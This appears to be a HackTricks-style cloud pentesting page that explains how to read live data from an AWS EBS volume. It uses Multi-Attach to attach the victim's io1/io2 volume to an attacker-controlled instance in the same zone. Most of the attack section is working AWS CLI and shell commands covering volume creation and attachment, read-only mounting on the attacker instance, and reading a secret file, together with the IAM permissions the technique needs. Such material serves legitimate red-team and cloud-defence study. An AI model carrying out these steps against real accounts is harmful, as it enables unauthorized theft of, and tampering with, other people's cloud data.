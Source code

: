 # AWS - Live Data Theft via EBS Multi-Attach

{{#include ../../../../banners/hacktricks-training.md}}

## Summary
Abuse EBS Multi-Attach to read from a live io1/io2 data volume by attaching the same volume to an attacker-controlled instance in the same Availability Zone (AZ). Mounting the shared volume read-only gives immediate access to in-use files without creating snapshots.

## Requirements
- Target volume: io1 or io2 created with `--multi-attach-enabled` in the same AZ as the attacker instance.
- Permissions: `ec2:AttachVolume`, `ec2:DescribeVolumes`, `ec2:DescribeInstances` on the target volume/instances.
- Infrastructure: Nitro-based instance types that support Multi-Attach (C5/M5/R5 families, etc.).

## Notes
- Mount read-only with `-o ro,noload` to reduce corruption risk and avoid journal replays.
- On Nitro instances the EBS NVMe device exposes a stable `/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_vol...` path (helper below).

## Prepare a Multi-Attach io2 volume and attach to victim

Example (create in `us-east-1a` and attach to the victim):

```bash
AZ=us-east-1a
# Create io2 volume with Multi-Attach enabled
VOL_ID=$(aws ec2 create-volume \
  --size 10 \
  --volume-type io2 \
  --iops 1000 \
  --availability-zone $AZ \
  --multi-attach-enabled \
  --tag-specifications 'ResourceType=volume,Tags=[{Key=Name,Value=multi-shared}]' \
  --query 'VolumeId' --output text)

# Attach to victim instance
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $VICTIM_INSTANCE --device /dev/sdf
```

On the victim, format/mount the new volume and write sensitive data (illustrative):

```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkfs.ext4 -F "$DEV"
sudo mkdir -p /mnt/shared
sudo mount "$DEV" /mnt/shared
echo 'secret-token-ABC123' | sudo tee /mnt/shared/secret.txt
sudo sync
```

## Attach the same volume to the attacker instance

```bash
aws ec2 attach-volume --volume-id $VOL_ID --instance-id $ATTACKER_INSTANCE --device /dev/sdf
```

## Mount read-only on the attacker and read data

```bash
VOLNOHYP="vol${VOL_ID#vol-}"
DEV="/dev/disk/by-id/nvme-Amazon_Elastic_Block_Store_${VOLNOHYP}"
sudo mkdir -p /mnt/steal
sudo mount -o ro,noload "$DEV" /mnt/steal
sudo cat /mnt/steal/secret.txt
```

Expected result: The same `VOL_ID` shows multiple `Attachments` (victim and attacker) and the attacker can read files written by the victim without creating any snapshot.

```bash
aws ec2 describe-volumes --volume-ids $VOL_ID \
  --query 'Volumes[0].Attachments[*].{InstanceId:InstanceId,State:State,Device:Device}'
```

<details>
<summary>Helper: find the NVMe device path by Volume ID</summary>

On Nitro instances, use the stable by-id path that embeds the volume id (drop the dash after `vol`):

```bash
VOLNOHYP="vol${VOL_ID#vol-}"
ls -l /dev/disk/by-id/ | grep "$VOLNOHYP"
# -> nvme-Amazon_Elastic_Block_Store_volXXXXXXXX...
```

</details>

## Impact
- Immediate read access to live data on the target EBS volume without generating snapshots.
- If mounted read-write the attacker can tamper with the victim filesystem (risk of corruption).

{{#include ../../../../banners/hacktricks-training.md}}
